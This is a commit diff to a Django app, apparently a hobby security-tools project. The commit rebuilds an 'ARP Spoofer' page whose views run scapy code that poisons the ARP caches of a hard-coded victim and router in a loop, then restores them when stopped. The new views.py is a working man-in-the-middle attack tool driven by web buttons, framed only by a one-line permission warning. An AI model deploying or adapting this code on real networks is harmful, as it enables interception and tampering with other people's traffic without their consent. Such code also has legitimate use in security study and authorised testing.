

Before and after one commit to razorboy73/django-security-tools, a Django app: page /arp_spoofer/ in a window 1280 px wide. Shown: the part 108-874 px from the top of the page. After the commit the page ends 391 px from the top, so only its background shows below. Run offline with Django 4.2, Linux system fonts and the light colour scheme; lists and menus that the app fills with data are empty.

Commit message:
rebuilt spoofing application

```diff
--- a/django_security_tools/arp_spoofer/templates/arp_spoofer/index.html
+++ b/django_security_tools/arp_spoofer/templates/arp_spoofer/index.html
@@ -3,153 +3,32 @@
 {% block title %}ARP Spoofer{% endblock %}
 
 {% block content %}
-<div class="container">
-    <h1>ARP Spoofer</h1>
-    <p>
-        ARP spoofing is a technique by which an attacker sends fake Address Resolution Protocol (ARP) messages
-        onto a local area network. This is often done to link the attacker’s MAC address with the IP address
-        of a legitimate computer or server on the network, enabling the attacker to intercept, modify, or block data.
-    </p>
-    <p>
-        This application demonstrates ARP spoofing for educational and security testing purposes only.
-        Unauthorized use is strictly prohibited.
-    </p>
+<h2>ARP Spoofer Dashboard</h2>
+<p>Use this tool responsibly and only in environments where you have explicit permission to test.</p>
 
-    <!-- Step-by-step Instructions -->
-    <div class="instructions mt-4">
-        <h2>How to Use the ARP Spoofer</h2>
-        <ol>
-            <li><strong>Detect Gateway:</strong> Click "Detect Gateway" to find the IP and MAC address of your network gateway.</li>
-            <li><strong>Scan Network:</strong> Click "Scan Network" to identify devices on your network.</li>
-            <li><strong>Select Target:</strong> Choose a target device from the scan results for spoofing.</li>
-            <li><strong>Start Spoofing:</strong> Click "Start Spoofing" to initiate spoofing.</li>
-            <li><strong>Stop Spoofing:</strong> Click "Stop Spoofing" to end the spoofing process.</li>
-        </ol>
-        <p class="text-danger"><strong>Warning:</strong> Use this tool responsibly and only in environments where you have explicit permission to test.</p>
+<!-- Messages Section -->
+{% if messages %}
+    <div class="messages">
+        {% for message in messages %}
+            <div class="alert {% if message.tags %}alert-{{ message.tags }}{% endif %}">
+                {{ message }}
+            </div>
+        {% endfor %}
     </div>
+{% endif %}
 
-    <!-- Detect Gateway -->
-    <form method="post">
+<!-- Dynamic Buttons -->
+{% if is_spoofing %}
+    <!-- Stop Spoofing -->
+    <form method="post" action="{% url 'arp_spoofer:stop_spoofing' %}">
         {% csrf_token %}
-        <button type="submit" name="detect_gateway" class="btn btn-primary">Detect Gateway</button>
+        <button type="submit" class="btn btn-danger">Stop Spoofing</button>
     </form>
-    {% if gateway_info %}
-        <div class="alert alert-info mt-3">
-            <h4>Gateway Information</h4>
-            <p><strong>IP Address:</strong> {{ gateway_info.ip }}</p>
-            <p><strong>MAC Address:</strong> {{ gateway_info.mac }}</p>
-        </div>
-    {% endif %}
-
-    <!-- Scan Network -->
-    <div class="mt-4">
-        <form method="post">
-            {% csrf_token %}
-            <button type="submit" name="scan_network" class="btn btn-secondary">Scan Network</button>
-        </form>
-        {% if scan_results %}
-            <div class="mt-3">
-                <h4>Network Scan Results</h4>
-                <table class="table">
-                    <thead>
-                        <tr>
-                            <th>IP Address</th>
-                            <th>MAC Address</th>
-                        </tr>
-                    </thead>
-                    <tbody>
-                        {% for device in scan_results %}
-                        <tr>
-                            <td>{{ device.ip }}</td>
-                            <td>{{ device.mac }}</td>
-                        </tr>
-                        {% endfor %}
-                    </tbody>
-                </table>
-            </div>
-        {% endif %}
-    </div>
-
-    <!-- Spoofing Controls -->
-    {% if spoofing_status %}
-    <form method="post" name="stop_spoofing">
+{% else %}
+    <!-- Start Spoofing -->
+    <form method="post" action="{% url 'arp_spoofer:start_spoofing' %}">
         {% csrf_token %}
-        <button type="submit" name="stop_spoofing" class="btn btn-danger">Stop Spoofing</button>
-    </form>
-    <div class="alert alert-info mt-3">
-        <strong>Spoofing is active.</strong> Port forwarding is enabled.
-        <div id="packet-counter">Packets sent: 0</div>
-        <div id="packet-indicator" style="width: 20px; height: 20px; background-color: red; animation: flash 1s infinite;"></div>
-    </div>
-{% else %}
-    <form method="post" class="mt-3">
-        {% csrf_token %}
-        <div class="form-group">
-            <label for="target">Select Target for Spoofing:</label>
-            <select name="target" id="target" required>
-                {% for device in scan_results %}
-                    <option value="{{ device.ip }}|{{ device.mac }}">{{ device.ip }} - {{ device.mac }}</option>
-                {% endfor %}
-            </select>
-        </div>
-        <button type="submit" name="start_spoofing" class="btn btn-primary">Start Spoofing</button>
+        <button type="submit" class="btn btn-success">Start Spoofing</button>
     </form>
 {% endif %}
-</div>
-
-<script>
-    let packetCounterInterval;
-
-    function updatePacketCounter() {
-        fetch("/arp_spoofer/get_packet_count/")
-            .then(response => response.json())
-            .then(data => {
-                const counterElement = document.getElementById("packet-counter");
-                if (counterElement) {
-                    counterElement.textContent = `Packets sent: ${data.packet_count}`;
-                }
-            })
-            .catch(console.error);
-    }
-
-    function startPacketCounter() {
-        packetCounterInterval = setInterval(updatePacketCounter, 1000);
-    }
-
-    function stopPacketCounter() {
-        if (packetCounterInterval) {
-            clearInterval(packetCounterInterval);
-        }
-    }
-
-    document.addEventListener("DOMContentLoaded", () => {
-        const spoofingActive = {{ spoofing_status|yesno:"true,false" }};
-        if (spoofingActive === "true") {
-            startPacketCounter();
-        }
-    });
-
-    document.querySelector('form[name="stop_spoofing"]')?.addEventListener("submit", function (event) {
-        event.preventDefault();
-        stopPacketCounter();
-        fetch("/", {
-            method: "POST",
-            headers: {
-                "Content-Type": "application/x-www-form-urlencoded",
-                "X-CSRFToken": "{{ csrf_token }}",
-            },
-            body: "stop_spoofing=1",
-        }).then(() => {
-            location.reload();
-        });
-    });
-</script>
-
-<style>
-    @keyframes flash {
-        0% { background-color: red; }
-        50% { background-color: green; }
-        100% { background-color: red; }
-    }
-</style>
 {% endblock %}
--- a/django_security_tools/arp_spoofer/urls.py
+++ b/django_security_tools/arp_spoofer/urls.py
@@ -1,10 +1,10 @@
 from django.urls import path
 from . import views
 
-app_name = 'arp_spoofer'
+app_name = 'arp_spoofer'  # Define a namespace for this app
 
 urlpatterns = [
     path('', views.index, name='index'),
-    path('get_packet_count/', views.get_packet_count_view, name='get_packet_count'),
-
+    path('start_spoofing/', views.start_spoofing, name='start_spoofing'),
+    path('stop_spoofing/', views.stop_spoofing, name='stop_spoofing'),
 ]
--- a/django_security_tools/arp_spoofer/views.py
+++ b/django_security_tools/arp_spoofer/views.py
@@ -1,70 +1,82 @@
-from django.shortcuts import render
-from django.http import JsonResponse
+from django.http import JsonResponse, HttpResponseRedirect
+from django.shortcuts import render, redirect
 from django.contrib import messages
-from .utils import (
-    get_gateway_info, scan_network, start_spoofing_continuous, stop_spoofing, get_packet_count
-)
+import threading
+import time
+import scapy.all as scapy
 
+# Global Variables
+is_spoofing = False
+packet_count = 0
+
+# Utility Functions
+def restore(destination_ip, source_ip):
+    destination_mac = get_mac(destination_ip)
+    source_mac = get_mac(source_ip)
+    packet = scapy.ARP(op=2, pdst=destination_ip, hwdst=destination_mac, psrc=source_ip, hwsrc=source_mac)
+    scapy.send(packet, verbose=False, count=4)
+
+def spoof(target_ip, spoof_ip):
+    target_mac = get_mac(target_ip)
+    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
+    scapy.send(packet, verbose=False)
+
+def get_mac(ip):
+    arp_request = scapy.ARP(pdst=ip)
+    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
+    arp_request_broadcast = broadcast / arp_request
+    answered_list = scapy.srp(arp_request_broadcast, timeout=2, verbose=False)[0]
+    return answered_list[0][1].hwsrc
+
+# Spoofing Thread
+def spoofing_thread(victim_ip, router_ip):
+    global is_spoofing, packet_count
+    try:
+        while is_spoofing:
+            spoof(victim_ip, router_ip)
+            spoof(router_ip, victim_ip)
+            packet_count += 2
+            print(f"\r[+] Packets sent: {packet_count}", end="", flush=True)
+            time.sleep(2)
+    except Exception as e:
+        print(f"[ERROR] {str(e)}")
+    finally:
+        is_spoofing = False
+
+# Views
 def index(request):
-    # Initialize spoofing status in the session if not already set
-    if "spoofing_status" not in request.session:
-        request.session["spoofing_status"] = False
-
-    gateway_info = None
-    scan_results = None
-    error = None
-    spoofing_status = request.session.get("spoofing_status", False)
-
-    if request.method == "POST":
-        if "detect_gateway" in request.POST:
-            # Detect Gateway Action
-            gateway_info = get_gateway_info()
-            if gateway_info.get("error"):
-                messages.error(request, gateway_info["error"])
-            else:
-                messages.success(request, f"Gateway detected: {gateway_info['ip']} ({gateway_info['mac']})")
-
-        elif "scan_network" in request.POST:
-            # Scan Network Action
-            gateway_info = get_gateway_info()
-            if gateway_info and not gateway_info.get("error"):
-                ip_range = gateway_info["ip"] + "/24"
-                try:
-                    scan_results = scan_network(ip_range)
-                    request.session["scan_results"] = scan_results
-                    messages.success(request, f"Network scan completed successfully for {ip_range}.")
-                except Exception as e:
-                    messages.error(request, f"Error during network scan: {e}")
-            else:
-                messages.error(request, "Error detecting gateway.")
-
-        elif "start_spoofing" in request.POST:
-            # Start Spoofing Action
-            target_data = request.POST.get("target")
-            gateway_info = get_gateway_info()
-            if gateway_info and target_data:
-                victim_ip, victim_mac = target_data.split("|")
-                gateway_ip = gateway_info["ip"]
-                gateway_mac = gateway_info["mac"]
-                try:
-                    start_spoofing_continuous(victim_ip, victim_mac, gateway_ip, gateway_mac)
-                    request.session["spoofing_status"] = True
-                    messages.success(request, "Spoofing started.")
-                except Exception as e:
-                    messages.error(request, f"Error starting spoofing: {e}")
-
-        elif "stop_spoofing" in request.POST:
-            # Stop Spoofing Action
-            stop_spoofing()
-            request.session["spoofing_status"] = False
-            messages.success(request, "Spoofing stopped.")
-
-    return render(request, "arp_spoofer/index.html", {
-        "gateway_info": gateway_info,
-        "scan_results": request.session.get("scan_results"),
-        "spoofing_status": request.session.get("spoofing_status", False),
-    })
+    global is_spoofing
+    return render(request, "arp_spoofer/index.html", {"is_spoofing": is_spoofing})
 
 
-def get_packet_count_view(request):
-    return JsonResponse({"packet_count": get_packet_count()})
+def start_spoofing(request):
+    global is_spoofing, packet_count
+    if request.method == "POST":
+        victim_ip = "172.16.149.163"
+        router_ip = "172.16.149.2"
+        if is_spoofing:
+            messages.error(request, "Spoofing is already running.")
+            return redirect("arp_spoofer:index")
+        is_spoofing = True
+        packet_count = 0  # Reset packet count when spoofing starts
+        thread = threading.Thread(target=spoofing_thread, args=(victim_ip, router_ip))
+        thread.daemon = True
+        thread.start()
+        messages.success(request, "Spoofing started successfully.")
+        return redirect("arp_spoofer:index")
+
+def stop_spoofing(request):
+    global is_spoofing
+    if request.method == "POST":
+        if not is_spoofing:
+            messages.error(request, "Spoofing is not running.")
+            return redirect("arp_spoofer:index")
+        is_spoofing = False
+        time.sleep(3)  # Allow spoofing thread to exit
+        victim_ip = "172.16.149.163"
+        router_ip = "172.16.149.2"
+        restore(victim_ip, router_ip)
+        restore(router_ip, victim_ip)
+        print("[+] Spoofing stopped and ARP tables restored.")
+        messages.success(request, "Spoofing stopped successfully.")
+        return redirect("arp_spoofer:index")
```
Also changed, not shown: django_security_tools/arp_spoofer/forms.py (deleted, +0 -11 lines), django_security_tools/arp_spoofer/tests.py (deleted, +0 -68 lines), django_security_tools/arp_spoofer/utils.py (deleted, +0 -84 lines).
